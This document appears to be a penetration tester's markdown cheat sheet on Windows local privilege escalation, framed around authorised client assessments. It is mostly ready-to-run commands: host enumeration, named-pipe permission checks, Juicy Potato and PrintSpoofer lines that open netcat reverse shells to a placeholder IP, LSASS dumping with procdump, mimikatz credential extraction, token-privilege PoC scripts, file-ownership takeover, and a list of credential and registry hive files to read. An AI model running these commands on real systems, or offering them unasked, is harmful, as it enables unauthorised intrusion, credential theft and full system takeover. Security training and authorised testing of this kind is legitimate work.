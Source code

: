# Windows Host Privilege Escalation

- The general goal of Windows privilege escalation is to further our access to a given system to a member of the `Local Administrators group` or the `NT AUTHORITY\SYSTEM` LocalSystem account.

- In some cases, privilege escalation may be the ultimate goal of the assessment if our client hires us for a "gold image" or "workstation breakout" type assessment. 

- We can escalate privileges to one of the following depending on the system configuration and what type of data we encounter:

- The highly privileged `NT AUTHORITY\SYSTEM` account, or `LocalSystem` account which is a highly privileged account with more privileges than a local administrator account and is used to run most Windows services.
- The built-in local `administrator` account. Some organizations disable this account, but many do not. It is not uncommon to see this account reused across multiple systems in a client environment.
- Another local account that is a member of the `local Administrators` group. Any account in this group will have the same privileges as the built-in administrator account.
- A standard (non-privileged) domain user who is part of the local Administrators group.
- A domain admin (highly privileged in the Active Directory environment) that is part of the local Administrators group.


### Network Information

```shell
ipconfig /all
arp -a
route print
```

### System Information

```shell
# To View tasks list
tasklist /svc

# View env variable
set
Get-ChildItem Env:

# System info
systeminfo

# Patches and updates
wmic qfe
Get-HotFix | ft -AutoSize

# Installed programs
wmic product get name
Get-WmiObject -Class Win32_Product |  select Name, Version

# Active connections
# Focus on entries listening on loopback addresses
netstat -ano

# Users & Groups information
query user  # logged in users
net user    # all users
net localgroup  # all groups
net localgroup administrators   # details about group
net accounts    # password policy and other info

echo %USERNAME%     # username
whoami
whoami /priv    # User privileges
whoami /group # User group information
```

### Named Pipe Attack

- We can use lax permissions assigned to named pipes to escalate privileges on the host to SYSTEM.

```shell
# List named pipes
pipelist.exe /accepteula
gci \\.\pipe\

# Reviewing named pipe permissions
accesschk.exe /accepteula \\.\Pipe\lsass -v
accesschk.exe -accepteula -w \pipe\WindscribeService -v
```

## Windows User Privileges

- Privileges in Windows are rights that an account can be granted to perform a variety of operations
on the local system such as managing services, loading drivers, shutting down the system, debugging
an application, and more.

- Privileges are different from access rights, which a system uses to grant or deny access to securable objects.


### SeImpersonate and SeAssignPrimaryToken

- In Windows, every process has a token that has information about the account that is running it.
- These tokens are not considered secure resources, as they are just locations within memory that
could be brute-forced by users that cannot read memory.

- Legitimate programs may utilize another process's token to escalate from Administrator to Local
System, which has additional privileges. Processes generally do this by making a call to the 
WinLogon process to get a SYSTEM token, then executing itself with that token placing it within
the SYSTEM space. 
- Attackers often abuse this privilege in the "Potato style" privescs - where a
service account can SeImpersonate, but not obtain full SYSTEM level privileges.

```shell
# Juicy potato
# https://github.com/ohpe/juicy-potato
JuicyPotato.exe -l <COM Server Port> -p <command> -a <arguments> -t <CreateProcessWithTokenW or CreateProcessAsUser>
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe IP PORT -e cmd.exe" -t *

# PrintSpoofer and RoguePotato
# For Windows Server 2019 and Windows 10 build 1809 onwards
PrintSpoofer.exe -c <command>
PrintSpoofer.exe -c "c:\tools\nc.exe IP PORT -e cmd"
```

### SeDebugPrivilege

- This privilege can be used to capture sensitive information from system memory, or access/modify
kernel and application structures.

```shell
# Dump LSASS 
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Get NTLM hashes using mimikatz
mimikatz.exe
"mimikatz # log"
"mimikatz # sekurlsa::minidump lsass.dmp"
"mimikatz # sekurlsa::logonpasswords"
```
- We can elevate our privileges to SYSTEM by launching a child process and using the elevated rights 
granted to our account via SeDebugPrivilege to alter normal system behavior to inherit the token of
a parent process and impersonate it.

```shell
# PoC Script: https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1
.\pocscript.ps1;[MyProcess]::CreateProcessFromParent((Get-Process "lssas").ID,<command_to_execute>,"")
```

### SeTakeOwnershipPrivilege

- SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object,"
meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and 
processes. This privilege assigns WRITE_OWNER rights over an object, meaning the user can change 
the owner within the object's security descriptor.

- These privileges can also be used to escalate privileges:
`SeBackupPrivilege, SeRestorePrivilege, and SeSecurityPrivilege`

- Sometimes this privilege can be disabled. So, we have to enable it first.

```shell
# PoC Script: https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```

- We can change ownership of some important file and read it.

```shell
# Checking file permissions
cmd /c dir /q <filepath>
# Take ownership of the file
takeown /f <filepath>
# Modify file's ACL
icacls <filepath> /grant $USER:F
```

- Interesting files:

```shell
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
.kdbx
```